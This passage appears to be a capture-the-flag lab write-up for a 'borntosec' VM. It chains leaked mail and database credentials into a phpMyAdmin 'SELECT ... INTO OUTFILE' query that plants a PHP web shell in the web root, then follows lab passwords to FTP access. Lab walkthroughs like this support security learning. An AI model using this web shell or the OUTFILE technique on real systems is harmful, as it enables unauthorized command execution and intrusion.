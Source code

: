 In her account, we find this email address: [**laurie@borntosec.net**](mailto:laurie@borntosec.net)

### Squirrelmail:

This address allows us to log in to squirrelMail, with the same password.

And in the emails, we have a mail "DB access" which gives us the creds for the db:
"Use root/Fg-'kKXBj87E:aJ$"

### PhpMyAdmin (SQL DB):

Once on Php My Admin, things get a bit more complex. We will try a getshell method:

For that, we will use the sql query generator from phpmyadmin and use a known exploit
which consists of writing to the server via an OUTFILE: "SELECT ... INTO OUTFILE"

We will use this payload to test the injection: 

```bash
SELECT "hello" INTO OUTFILE "/var/www/forum/templates_c/test
```

Why do we use /var/www/forum/templates_c/test? Because we want to write to the site (**/var/www/**) to verify that the writing worked and in **forum/templates_c** because it's the only
place where we have write permission.

Bingo, we indeed have hello added in [https://192.168.142.132/forum/templates_c/test](https://192.168.142.132/forum/templates_c/test)

We now need to get a reverse shell, we will generate it on [revshells.com](http://revshells.com/); here it is:

```bash
select "<html> <body> <form method='GET' name='<?php echo basename($_SERVER['PHP_SELF']); ?>'> <input type='TEXT' name='cmd' id='cmd' size='80'> <input type='SUBMIT' value='Execute'> </form> <pre> <?php     if(isset($_GET['cmd']))     {         system($_GET['cmd']);     } ?> </pre> </body> <script>document.getElementById('cmd').focus();</script> </html>" into outfile "/var/www/forum/templates_c/test.php"
```

Opening test.php, we have an input, and we can write our commands in it.

### Get Laurie’s account:

We do an ls of /home and we find lookatme. If we search for lookatme we come across the file
"password" which contains 'lmezard:G!@M6f4Eatau{sF"'

We connect via ftp (because ssh doesn't work).

We find ourselves facing two files:

- A README indicating that we will find Laurie's password
- a file "fun"

The fun file is an archive, we know this thanks to the file command.
We decompress the archive then we come across a multitude of files.
By doing a cat * and reading a bit, we see a part of code, which put together gives:
printf("MY PASSWORD IS : %c%c%c%c%c%c%c%c%c%c%c%c", getme1(), getme2(), getme3()...);

